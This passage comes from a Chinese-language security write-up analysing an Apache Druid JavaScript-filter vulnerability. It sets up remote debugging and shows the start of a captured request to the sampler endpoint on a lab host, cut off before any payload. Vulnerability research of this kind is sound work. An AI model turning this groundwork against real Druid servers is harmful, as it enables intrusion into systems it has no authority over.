 在`jvm.config`最后加上

```
-Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5005
```

在`idea`中加上远程调试配置

[![](https://p3.ssl.qhimg.com/t015d9df7e2af48ea14.png)](https://p3.ssl.qhimg.com/t015d9df7e2af48ea14.png)

```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005
```

运行服务端程序

```
./bin/start-micro-quickstart
```

就可以开始愉快地下断点调试了



## 漏洞分析

### <a class="reference-link" name="%E5%AF%BB%E6%89%BE%E6%BC%8F%E6%B4%9E%E7%82%B9"></a>寻找漏洞点

在`druid`官网关于`javascript`的利用中我们可以找到filiter中的利用[https://druid.apache.org/docs/latest/querying/filters.html#javascript-filter](https://druid.apache.org/docs/latest/querying/filters.html#javascript-filter)

[![](https://p1.ssl.qhimg.com/t015d998b103ba00118.png)](https://p1.ssl.qhimg.com/t015d998b103ba00118.png)

可以找到网页上的相关功能点，抓包如下

```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.111.3:8888
Content-Length: 11180
Accept: application/json, text/plain, */*
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.111.3:8888
Referer: http://192.168.111.3:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

`{`
    "type": "index",
    "spec": `{`
        "ioConfig": `{`
            "type": "index",
            "inputSource": `{`
                "type": "inline",
                "data": "",
            `}`,
            "inputFormat": `{`
                "type": "json",
                "keepNullColumns": true
            `}`
        `}`,
        "dataSchema": `{`
```